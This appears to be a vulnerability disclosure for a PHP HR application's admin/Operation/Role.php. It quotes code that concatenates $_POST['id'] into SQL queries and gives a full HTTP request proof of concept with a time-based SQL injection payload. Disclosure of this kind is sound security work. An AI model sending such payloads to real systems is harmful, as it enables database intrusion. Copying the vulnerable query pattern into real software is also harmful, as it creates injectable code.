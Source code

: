 ### Vulnerability file address

`admin/Operation/Role.php` from line 58,The `$_POST['id']` parameter is controllable and the ` $stmt = $conn->prepare("UPDATE groups set name='$assign_name',description='$description' where id='" . $_POST['id'] . "'");` is not protected from sql injection, line 59 `$stmt->execute();` ,line 59 performs a SQL query, causing SQL injection

```php
 <?php

    }
    if (isset($_POST['btn_edit'])) {
      //$id=$_GET['id'];
      //echo "string";
      extract($_POST);
      $stmt = $conn->prepare("delete  from permission_role where group_id='" . $_POST['id'] . "'");
      $stmt->execute();

      $stmt = $conn->prepare("UPDATE groups set name='$assign_name',description='$description' where id='" . $_POST['id'] . "'");
      $stmt->execute();
```

### POC

```http
POST /CMS/php/_hr_soft/admin/Operation/Role.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

btn_edit=1&id=180';SELECT SLEEP(5)#
```

### Attack results pictures

![image-20250130165733396](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501301657429.png)